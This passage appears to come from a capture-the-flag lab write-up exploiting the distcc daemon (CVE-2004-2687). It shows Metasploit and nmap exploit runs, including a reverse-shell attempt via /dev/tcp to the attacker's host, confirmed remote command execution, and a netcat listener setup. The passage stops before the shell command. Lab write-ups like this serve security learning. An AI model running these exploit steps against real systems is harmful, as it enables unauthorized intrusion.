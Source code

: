 ```
[msf](Jobs:0 Agents:0) exploit(unix/misc/distcc_exec) >> set rhosts 10.129.106.70
rhosts => 10.129.106.70
[msf](Jobs:0 Agents:0) exploit(unix/misc/distcc_exec) >> check
[+] 10.129.106.70:3632 - The target is vulnerable.
[msf](Jobs:0 Agents:0) exploit(unix/misc/distcc_exec) >> run

[*] Started reverse TCP handler on 192.168.0.87:4444 
[*] 10.129.106.70:3632 - stderr: bash: 188: Bad file descriptor
[*] 10.129.106.70:3632 - stderr: bash: /dev/tcp/192.168.0.87/4444: No such file or directory
[*] 10.129.106.70:3632 - stderr: bash: 188: Bad file descriptor
[*] Exploit completed, but no session was created.
```
I tried different payloads but no one seems to work.

According to hacktricks, nmap has a script to exploit the vulnerability: https://book.hacktricks.xyz/network-services-pentesting/3632-pentesting-distcc
```
$wget https://svn.nmap.org/nmap/scripts/distcc-cve2004-2687.nse
--2023-09-18 18:57:43--  https://svn.nmap.org/nmap/scripts/distcc-cve2004-2687.nse
Resolving svn.nmap.org (svn.nmap.org)... 2600:3c01:e000:3e6::6d4e:7061, 45.33.49.119
Connecting to svn.nmap.org (svn.nmap.org)|2600:3c01:e000:3e6::6d4e:7061|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3519 (3,4K) [text/plain]
Saving to: ‘distcc-cve2004-2687.nse’

distcc-cve2004-2687.nse                         100%[=====================================================================================================>]   3,44K  --.-KB/s    in 0s      

2023-09-18 18:57:43 (118 MB/s) - ‘distcc-cve2004-2687.nse’ saved [3519/3519]

$nmap -Pn -p 3632 10.129.106.70 --script ./distcc-cve2004-2687.nse  --script-args="cmd='whoami'"
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-18 19:01 CEST
Nmap scan report for 10.129.106.70
Host is up (0.020s latency).

PORT     STATE SERVICE
3632/tcp open  distccd
| distcc-cve2004-2687: 
|   VULNERABLE:
|   distcc Daemon Command Execution
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2004-2687
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|       Allows executing of arbitrary commands on systems running distccd 3.1 and
|       earlier. The vulnerability is the consequence of weak service configuration.
|       
|     Disclosure date: 2002-02-01
|     Extra information:
|       
|     daemon
|   
|     References:
|       https://nvd.nist.gov/vuln/detail/CVE-2004-2687
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2687
|_      https://distcc.github.io/security.html

Nmap done: 1 IP address (1 host up) scanned in 0.29 seconds
```
Perfect! We have a remote code execution with the user daemon. We can now set a reverse shell to get access to the machine:
```
# In one console, listen on port 4444
$nc -lnvp 4444
# In another console, run nmap command
```